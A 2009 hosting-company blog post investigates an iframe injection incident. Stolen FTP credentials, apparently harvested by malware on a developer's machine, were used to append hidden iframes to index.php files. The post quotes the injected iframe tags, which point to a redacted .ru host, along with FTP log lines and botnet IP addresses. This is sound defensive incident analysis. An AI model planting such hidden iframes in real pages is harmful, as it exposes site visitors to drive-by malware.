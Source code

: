 ```yaml
---
author: max-veprinsky
date: '2009-09-21 15:17:56'
layout: post
slug: iframe-injection-attack-investigation
status: publish
title: Iframe injection attack investigation
wordpress_id: '874'
categories:
- hosting
- Security
---
```


The whole hidden IFRAME vulnerability has been going on for some time, only a few of our client have been effected by this. The net is still buzzing with this issue and while some are saying that the injection are results of php insecurities, mysql injection or cross site scripting, while others point to key loggers and hijacked ftp credentials. In our case the exploit was not due to an application vulnerability but rather to hijacked ftp login information. Brute force password guessing attacks were not performed on this account nor any other accounts on the same server. In this particular type of attack, at the very end of index.php/index.html an IFRAME statement was appended overwriting page closing tags.

`iframe src="http://***.ru:8080/index.php" width=111 height=162 style="visibi
iframe src="http://***.ru:8080/index.php" width=136 height=162 style="visibility: hidden" /iframe
iframe src="http://***.ru:8080/index.php" width=141 height=156 style="visibility: hidden" /iframe`

Some of the index.php files had multiple IFRAME statements appended to the end. Knowing the username of affected account and affected filename I searched in /var/log/messages for any related entries and hit jackpot:

`Aug 27 01:27:59 web152 pure-ftpd: (?@94.218.69.243) [INFO] user is now logged in
Aug 27 01:28:00 web152 pure-ftpd: (user@94.218.69.243) [NOTICE] /home/user//public_html/index.php downloaded  (2311 bytes, 1001.70KB/sec)
Aug 27 01:28:00 web152 pure-ftpd: (user@94.218.69.243) [INFO] Logout.
Aug 27 01:28:04 web152 pure-ftpd: (?@78.92.144.185) [INFO] user is now logged in
Aug 27 01:28:05 web152 pure-ftpd: (user@78.92.144.185) [NOTICE] /home/user//public_html/index.php uploaded  (2353 bytes, 10.42KB/sec)
Aug 27 01:28:05 web152 pure-ftpd: (user@78.92.144.185) [INFO] Logout.`

What's interesting to note here is that even though downloading/uploading of index.php happens within a 6 second window, the source ip address for download and upload are not the same. During the next few days the same file is downloaded and uploaded but never from the same set of ip addresses. During the few days that I was allowing this to happen as I was monitoring said activity and collecting the IP addresses to see if a pattern emerges:

`83.82.57.39 GeoIP Country Edition: NL, Netherlands
95.52.163.74 GeoIP Country Edition: RU, Russian Federation
189.122.164.40 GeoIP Country Edition: BR, Brazil
69.159.47.21 GeoIP Country Edition: CA, Canada
85.221.184.164 GeoIP Country Edition: PL, Poland
98.243.198.220 GeoIP Country Edition: US, United States
78.30.154.22 GeoIP Country Edition: RS, Serbia
77.81.33.229 GeoIP Country Edition: RO, Romania
83.6.73.91 GeoIP Country Edition: PL, Poland
190.198.3.27 GeoIP Country Edition: VE, Venezuela
75.208.130.92 GeoIP Country Edition: US, United States
68.84.202.157 GeoIP Country Edition: US, United States
75.80.81.104 GeoIP Country Edition: US, United States`

Seeing that no clear pattern is evident here and considering that the IP address was different for each connection it is my rationale that the computer's at these IP addresses were a part of a botnet. My assumption is that a developer had saved the account password and was infected by malicious software which was able to gather the ftp credentials.

Cleanup included restoring files and changing all account/ftp/email and database passwords.
